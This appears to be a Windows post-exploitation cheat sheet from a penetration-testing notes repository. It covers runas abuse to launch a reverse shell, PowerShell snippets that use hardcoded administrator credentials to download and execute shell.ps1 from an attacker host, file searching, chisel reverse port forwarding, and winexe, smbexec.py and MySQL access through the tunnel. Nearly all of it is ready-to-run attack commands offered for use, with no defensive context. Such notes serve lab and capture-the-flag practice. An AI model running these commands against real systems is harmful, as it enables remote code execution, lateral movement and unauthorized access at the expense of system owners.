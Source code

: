 ## RunAs
CMD
``` powershell
runas /savecred /user:admin C:\abcd\reverse.exe
```

PowerShell Runas 1

``` powershell
$password = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://kali_ip/shell.ps1')" -Credential $cred
``` 

PowerShell Runas 2

``` powershell
$username = "domain\Administrator"
$password = "pass123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/shell.ps1') } -Credential $cred -Computer localhost
```

## Find Files Fast

CMD or PowerShell
``` powershell
dir /s <filename> # or extensions
```

PowerShell

``` powershell
Get-ChildItem -Path C:\ -Include *filename_wildcard* -Recurse -ErrorAction SilentlyContinue
```

## Port Forwarding 
``` powershell
# If some port are listening on the target machine but inaccessible, forward the ports - Port Forwarding
# winexe, pth-winexe, smbexec.py, psexec works on 445, MySQL on 3306
# On KALI
./chisel server --reverse --port 9001
# On Windows
.\chisel.exe client KALI_IP:9001 R:KALI_PORT:127.0.0.1:WINDOWS_PORT
# Example --> .\chisel.exe client KALI_IP:9001 R:445:127.0.0.1:445

# On KALI
winexe -U 'administrator%pass123' --system //127.0.0.1 KALI_PORT
smbexec.py domain/username:password@127.0.0.1 
mysql --host=127.0.0.1 --port=KALI_PORT -u username -p
```
